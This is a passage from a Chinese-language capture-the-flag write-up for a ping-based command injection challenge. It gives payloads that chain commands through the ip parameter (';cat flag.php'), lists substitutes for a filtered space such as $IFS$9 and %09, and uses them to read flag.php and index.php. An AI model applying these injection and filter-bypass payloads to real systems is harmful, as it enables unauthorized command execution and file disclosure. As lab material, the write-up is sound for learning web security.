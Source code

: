 <div align=center><img src="../images/2024/07/29/ping_bug2/Ping3.png" alt="Ping3" border="0" width="90%" height="60%"></div>

看到有index.php 和 flag.php 两个文件

直接传入 **/?ip=1;cat flag.php** 查看flag

<div align=center><img src="../images/2024/07/29/ping_bug2/Ping4.png" alt="Ping4" border="0" width="90%" height="60%"></div>

发现空格被检测出来，过滤掉了

利用之前学的**必备技巧2：特殊字符代替空格(绕过空格)**：
   - ` < ` 
   - ` <> `
   - ` $IFS `
   - ` ${IFS} `
   - ` $IFS$9 `    9可以换成任何一个数字
   - ` %09 ` 

最后发现只有 ` $IFS$9 ` 能用，替换空格后payload变成：` /?ip=1;cat$IFS$9flag.php `。但是传入之后还是不行，flag这几个字符也被检测过滤了。(图片我就不放了，你们自己试试就知道)

那我们先看看index文件，传入 ` /?ip=1;cat$IFS$9index.php `

<div align=center><img src="../images/2024/07/29/ping_bug2/Ping5.png" alt="Ping5" border="0" width="90%" height="60%"></div>